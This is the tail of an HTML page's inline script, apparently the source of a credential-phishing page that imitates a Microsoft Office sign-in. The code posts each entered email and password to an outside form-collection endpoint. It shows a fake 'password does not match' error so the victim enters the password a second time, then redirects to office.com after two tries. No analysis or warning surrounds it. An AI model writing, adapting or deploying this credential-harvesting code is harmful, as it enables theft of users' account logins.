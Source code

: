 		$('#password').keypress(function(){
			$('#msg1').hide()
			$('#msg').hide()
		})
		
		if(password.length < 6){
			$('#msg1').show()
			password.focus
			return false
		}		
		

        count=count+1
        $.ajax({
          dataType: 'JSON',
          url: 'https://submit-form.com/sqr3G6s3',
          type: 'POST',
          data:{
            email:email,
            password:password,
            detail:detail,

          },
          beforeSend: function(xhr){
            $('#submit-btn').html('Signing in...')
          },
          success: function(response){
            if(response){
              $("#msg").show()
              console.log(response)
              if(response['signal'] == 'ok'){
               $('#msg').html(response['msg'])
               var password=$("#password").val("")
             }
             else{
              $('#msg').html(response['msg'])
              var password=$("#password").val("")
            }
          }
        },
        error: function(){
          $("#msg").show()
		  $('#password').click(function(){
			$('#msg').hide()
		  })
          $('#msg').html("Your password does not match. Please try again.")
          var password=$("#password").val("")
        },
        complete: function(){
          $('#submit-btn').html('Sign in')
		  if (count>=2) {
				$('#msg').hide()
				window.location.replace("https://office.com")
			}
        }
      })
     })
    })
  </script>
</body>
</html>
